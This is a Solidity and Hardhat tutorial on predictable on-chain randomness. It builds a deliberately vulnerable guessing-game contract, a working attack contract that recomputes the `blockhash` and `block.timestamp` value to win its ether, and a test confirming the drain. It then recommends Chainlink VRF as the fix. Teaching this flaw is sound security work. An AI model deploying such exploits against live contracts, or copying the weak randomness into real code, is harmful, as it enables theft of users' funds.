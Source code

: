 # Source of Randomness

Today we will learn how using `blockhash` and `block.timestamp` is a false source of randomness

## Requirements

- We will build a game where there is a pack of cards.
- Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
- Player will guess a number that is going to be picked up.
- The dealer will then at random pick up a card from the pack
- If someone correctly guesses the number, they win `0.1 ETH`
- We will hack this game today :)

## Build

To build the smart contract we will be using [Hardhat](https://hardhat.org/).
Hardhat is an Ethereum development environment and framework designed for full stack development in Solidity. In simple words you can write your smart contract, deploy them, run tests, and debug your code.

- In you folder, you will set up a Hardhat project

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

- Lets first understand what `abi.encodedPacked` does, For that please go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

- Create a file named as `Game.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    contract Game {
    constructor() payable {}

        /**
            Randomly picks a number out of `0 to 2²⁵⁶–1`.
        */
        function pickACard() private view returns(uint) {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint pickedCard = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            return pickedCard;
        }

        /**
            It begins the game by first choosing a ramdom number by calling `pickACard`
            It then verifies if the random number selected is equal to `_guess` passed by the player
            If the player guessed the correct number, it sends the player `0.1 ether`
        */
        function guess(uint _guess) public {
            uint _pickedCard = pickACard();
            if(_guess == _pickedCard){
                (bool sent,) = msg.sender.call{value: 0.1 ether}("");
                require(sent, "Failed to send ether");
            }
        }

        /**
            Returns the balance of ether in the contract
        */
        function getBalance() view public returns(uint) {
            return address(this).balance;
        }

    }
  ```

- Now create a file called as `Attack.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    import "./Game.sol";

    contract Attack {
        Game game;
        /**
            Creates an instance of Game contract with the help of `gameAddress`
        */
        constructor(address gameAddress) {
            game = Game(gameAddress);
        }

        /**
            attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
            is accessible publically
        */
        function attack() public {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint _guess = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            game.guess(_guess);
        }

        // Gets called when the contract recieves ether
        receive() external payable{}
    }
  ```

- How the attack takes place is as follows:

  - The hacker calls the `attack` function from the `Attack.sol`
  - `attack` further guesses the number using the same method as `Game.sol` which is
    `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`
  - Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  - The attacker then calls the `guess` function from `Game.sol`
  - `guess` first calls the `pickACard` function which generates the same number using `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))` because `pickACard` and `attack` were both called in the same block.
  - `guess` compares the numbers and they turn out to be the same.
  - `guess` then sends the `Attack.sol` `0.1 ether` and the game ends
  - Attacker is successfully able to guess the random number

- Now lets write some tests to verify if it works exactly as we hoped.

- Create a new file named `attack.js` inside the `test` folder and add the following lines of code

  ```javascript
  const { ethers, waffle } = require("hardhat");
  const { expect } = require("chai");
  const { BigNumber, utils } = require("ethers");

  describe("Attack", function () {
    it("Should be able to guess the exact number", async function () {
      // Deploy the Game contract
      const Game = await ethers.getContractFactory("Game");
      const _game = await Game.deploy({ value: utils.parseEther("0.1") });
      await _game.deployed();

      console.log("Game contract address", _game.address);

      // Deploy the attack contract
      const Attack = await ethers.getContractFactory("Attack");
      const _attack = await Attack.deploy(_game.address);

      console.log("Attack contract address", _attack.address);

      // Attack the Game contract
      const tx = await _attack.attack();
      await tx.wait();

      const balanceGame = await _game.getBalance();
      // Balance of the Game contract should be 0
      expect(balanceGame).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now open up a terminal pointing to `Source-of-Randomness` folder and execute this

  ```bash
  npx hardhat compile
  ```

- If all your tests passed, you have sucessfully completed the hack :)

## Preventions

- Don't use `blockhash` and `block.timestamp` as source of randomness
- You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness
